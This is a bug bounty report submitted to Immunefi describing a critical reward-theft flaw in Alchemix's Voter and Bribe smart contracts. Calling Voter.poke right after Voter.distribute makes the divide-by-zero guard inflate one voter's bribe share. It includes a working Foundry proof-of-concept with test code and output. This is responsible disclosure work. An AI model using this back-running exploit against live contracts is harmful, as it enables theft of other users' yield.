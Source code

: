 # 31249 - \[SC - Critical] malicious user can back-run Voterdistribute to ...

Submitted on May 15th 2024 at 19:58:42 UTC by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31249

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:

* Theft of unclaimed yield

## Description

## Brief/Intro

In current implementation, `Voter.distribute` is used to distribute ALCX among gauges, during the call there is an issue that a malicious user can back-run `Voter.distribute` to steal reards.

## Vulnerability Details

During the `Voter.distribute` function, [Voter.\_distribute](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L359C14-L379) is called, and at the end of `Voter._distribute`, `IBribe.resetVoting` is called at \[https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L377] [IBribe.resetVoting](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L332-L335) is defined as:

```solidity
345     /// @inheritdoc IBribe
346     function resetVoting() external {
347         require(msg.sender == voter);
348         totalVoting = 0;
349     }
```

**So it means that after calling `Voter.distribute`, `Bribe.totalVoting` will be set to 0.**

Then in `Bribe.earned`, `Bribe.totalVoting` is used in [Bribe.sol#L257-L261](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L255-L261) and [Bribe.sol#L268-L277](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L268-L277). One thing to note is that:

```solidity
270         // Prevent divide by zero
271         if (_priorSupply == 0) {
272             _priorSupply = 1;
273         }
```

So it means that if **\_priorSupply** will be set to **1** if it's 0. And `reward` depends on `_priorSupply` as:

```solidity
reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
```

To sum up:

1. During `Voter.distribute`, `Bribe.totalVoting` will be set to **0**
2. `Bribe.earned` depends of `Bribe.totalVoting` to calculate the amount of rewards. And if we can force `_priorSupply` to 1 while calculating the rewards, we will make more profilt. We can use `Voter.poke` to update the `checkpoint` after `Voter.distribute`.

## Impact Details

In current implementation, `Voter.distribute` is used to distribute ALCX among gauges, during the call there is an issue that a malicious user can back-run `Voter.distribute` to steal reards.

## References

Add any relevant links to documentation or code

## Proof of Concept

put the follow code in `src/test/Voting.t.sol` and run

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/$API_KEY --fork-block-number 17133822 --mc VotingTest --mt testAliceEpochRewards -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 2 tests for src/test/Voting.t.sol:VotingTest
[PASS] testAliceEpochRewardsNoPoke() (gas: 6888013)
Logs:
  earned                    : 33333333333333333333333
  earned                    : 33333333333333333333333
  bal.balanceOf(Alice)      : 33333333333333333333333
  bal.balanceOf(Bob)        : 0

[PASS] testAliceEpochRewardsPoke() (gas: 6969463)
Logs:
  earned                    : 100000000000000000000000
  earned                    : 100000000000000000000000
  bal.balanceOf(Alice)      : 100000000000000000000000
  bal.balanceOf(Bob)        : 0

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 86.68ms (116.98ms CPU time)
```

As we can from above, if Alice doesn't call `Voter.poke` after `Voter.distribute`, Alice will receive 33333333333333333333333 bal rewards.

And if Alice calls `Voter.poke` after `Voter.distribute`, Alice will receive 100000000000000000000000 bal rewards.

```solidity
    function testAliceEpochRewardsPoke() public {
        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        hevm.roll(block.number + 1);

        deal(address(alcx), address(voter), TOKEN_100K);

        hevm.prank(address(voter));
        sushiGauge.notifyRewardAmount(TOKEN_100K);

        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        address Chris = address(0x33003300);
        // Create a veALCX token and vote to trigger voter rewards
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(Chris, TOKEN_1, MAXTIME, false);
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;
        address[] memory gauges = new address[](1);
        gauges[0] = address(sushiGauge);

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);
        hevm.prank(Chris);
        voter.vote(tokenId3, pools, weights, 0);

        address bribeAddress = voter.bribes(address(sushiGauge));
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        voter.distribute();
        hevm.prank(Alice);
        voter.poke(tokenId1);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory bribes = new address[](1);
        bribes[0]  = bribeAddress;
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId1));
        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId2));
        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("bal.balanceOf(Alice)      :", IERC20(bal).balanceOf(Alice));
        console2.log("bal.balanceOf(Bob)        :", IERC20(bal).balanceOf(Bob));
    }

    function testAliceEpochRewardsNoPoke() public {
        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        hevm.roll(block.number + 1);

        deal(address(alcx), address(voter), TOKEN_100K);

        hevm.prank(address(voter));
        sushiGauge.notifyRewardAmount(TOKEN_100K);

        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        address Chris = address(0x33003300);
        // Create a veALCX token and vote to trigger voter rewards
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(Chris, TOKEN_1, MAXTIME, false);
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;
        address[] memory gauges = new address[](1);
        gauges[0] = address(sushiGauge);

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);
        hevm.prank(Chris);
        voter.vote(tokenId3, pools, weights, 0);

        address bribeAddress = voter.bribes(address(sushiGauge));
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        voter.distribute();

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory bribes = new address[](1);
        bribes[0]  = bribeAddress;
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId1));
        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId2));
        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("bal.balanceOf(Alice)      :", IERC20(bal).balanceOf(Alice));
        console2.log("bal.balanceOf(Bob)        :", IERC20(bal).balanceOf(Bob));
    }
```
